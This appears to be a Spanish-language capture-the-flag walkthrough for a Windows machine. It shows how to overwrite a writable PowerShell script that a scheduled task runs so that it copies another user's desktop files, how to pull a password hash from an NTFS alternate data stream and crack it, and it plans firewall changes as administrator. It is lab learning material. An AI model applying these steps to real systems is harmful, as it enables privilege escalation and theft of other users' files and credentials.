 ```bash
dir c:\
dir c:\sysadmscripts
```

Vemos en `C:\` un directorio raro llamado `sysadmscript`. En este directorio, hay dos ficheros:

- c.ps1
- del_logs.bat

Analizando con el comando type lo que hacen estos script, vemos que el `del_logs.bat` llama al fichero `c.ps1` y lo
ejecuta con **powershell**. Aqui pensamos que hay una tarea que se ejecuta a intervalo regular de tiempo que ejecuta el fichero
`del_logs.bat`. Miramos si podemos modificar los ficheros.

```bash
cacls c:\sysadmscripts\del_logs.bat
cacls c:\sysadmscripts\c.ps1
```

Modificamos el Script para copiar los ficheros del usuario **decoder.Minion**

Aqui vemos que solo podemos modificar el fichero `c.ps1`

```bash
echo "dir C:\Users\decoder.MINION\Desktop\ > C:\Temp\decoder_desktop.txt" > C:\Temp\c.ps1
echo "copy C:\Users\decoder.MINION\Desktop\user.txt > C:\Temp\decoder_user.txt" >> C:\Temp\c.ps1
echo "copy C:\Users\decoder.MINION\Desktop\* > C:\Temp\" >> C:\Temp\c.ps1
copy C:\Temp\c.ps1 C:\sysadmscripts\c.ps1
```

Esperando un poco, nos copia los ficheros en `c:\temp`. Podemos visualizar la flag del usuario.
Tambien vemos un fichero `backup.zip` y si le chequeamos por **Aditionnal Data Streams** con el comando

#### Lectura de Additionnal Data Strems y crackeo de Hash {-}

```bash
Get-Item -Path C:\Temp\backup.zip -stream *
```

Vemos que tiene un stream llamado pass. Lo miramos con el comando `type`

```bash
type C:\Temp\backup.zip:pass
```

y encontramos un hash. Si lo pasamos por [crackstation](https://crackstation.net/) nos da la contraseña.

#### Ejecucion de comandos como administrator con ScriptBlock {-}

Aqui el problema es que no tenemos conectividad con **smb** o otros puertos para conectarnos como root. La idea
aqui seria de ejecutar comandos como administrator para cambiar la reglas del Firewall.
